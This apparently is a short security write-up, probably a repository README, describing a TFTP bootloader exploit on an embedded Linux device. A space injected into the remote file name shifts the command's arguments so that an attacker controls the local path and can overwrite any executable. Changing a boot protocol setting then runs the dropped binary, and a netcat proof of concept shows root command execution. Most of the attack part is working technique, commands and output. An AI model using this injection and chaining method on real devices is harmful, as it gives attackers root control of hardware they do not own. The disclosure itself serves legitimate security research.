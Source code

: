 
# TFTP boot exploit

The bootloader has a feature to pull firmware images from a tftp server. To do that the following command line gets executed:

```
$ tfp something remote_file  local_file something
```
While we don't know the exact number of params for "something", we know that we control `remote_file` through the
hidden menu, but we don't control `local_file` as it is passed as a hardcoded string to the command line.

However by injecting a space into `remote_file` we can split it into two and shift the rest of parameters on the
right by one. For example, if we provide "aaa bbb" remote file name, the command will look like this:

```
$ tfp something aaa bbb local_file something
```
Now we can control both remote ("aaa") and local ("bbb") file names. This allows us to overwrite any executable
on the file system.


# Chaining vulnerabilities

To be able to execute our dropped binary we have to adjust the bootloader settings to try `multicast` protocol if tftp
fails. This is done by providing boot protocol value `21`. `2` means first try `tftp`, `1` means try multicast if tftp
failed. By chaining all together:

```
Negotiation transfer size = 516744
Download completed
Unable to open file /tmp/bootimage.gz.sec: No such file or directory
utilman: Unable to open '/tmp/bootimage.gz.sec'
Loading kernel image
Using Bootcast
aaaa pwned
```

PoC:

```
$ echo "/tmp/busybox id" | nc 192.168.99.97 1337
uid=0 gid=0

$ echo "/tmp/busybox cat /proc/version" | nc 192.168.99.97 1337
Linux version 2.6.32.59_stm24_0211 (<build_user_removed>@<build_host _removed>)
(gcc version 4.7.3 20130514 (GCC)) #1 PREEMPT <timestamp_removed>
```

